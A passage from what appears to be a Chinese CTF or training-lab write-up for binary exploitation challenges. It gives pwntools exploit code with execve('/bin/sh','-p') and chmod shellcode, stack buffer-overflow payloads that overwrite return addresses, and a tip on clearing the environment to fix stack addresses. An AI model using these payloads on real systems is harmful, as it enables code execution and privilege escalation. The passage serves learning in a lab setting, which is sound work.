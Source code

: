 拿 shell 方法：

```python
# execve("/bin/sh\x00",["/bin/sh\x00", "-p\x00\x00"],NULL)
sc = """
mov rax, 59                # execve
mov rbx, 0x68732f6e69622f  # "/bin/sh"
push rbx
mov rdi, rsp               # rdi -> "/bin/sh" on stack
push 0x702d                # "-p"
mov rcx, rsp               # rcx -> "-p" on stack
push 0
push rcx
push rdi
mov rsi, rsp               # rsi -> [rdi, rcx, 0] on stack -> ["/bin/sh","-p",NULL]
mov rdx, 0                 # NULL
syscall
"""
sc_addr = 0x169e0000
sa('stdin.', asm(sc))

payload = b'a'*0x38 + p64(sc_addr)
s(payload)
```

为调试方便，后续题目使用 babymem 13 的 shellcode。

> 注：toddlerone 后续所有题目的 `x.1` 均是在 `x.0` 基础上要求自己确定偏移量和地址，不再赘述。

### 2.0

往栈上写 shellcode，然后返回到栈上。

```python
# chmod("a", 4)
sc = """
mov al, 0x5a  # chmod
push 0x61     # "a"
mov rdi, rsp  # rdi -> "a" on stack
mov sil, 4    # 4 -> 000 000 100
syscall
"""
sc_addr = 0x7fffffffd290

payload = asm(sc).ljust(0x78, b'a') + p64(sc_addr)
s(payload)
```

2.1 的主要坑点在于，为了确定栈地址需要将环境变量清空：

```python
p = gdb.debug(binary, env={})
```

随后再 gdb 确定偏移量即可，最后编写 exp 时也要注意清空环境变量使栈地址固定：
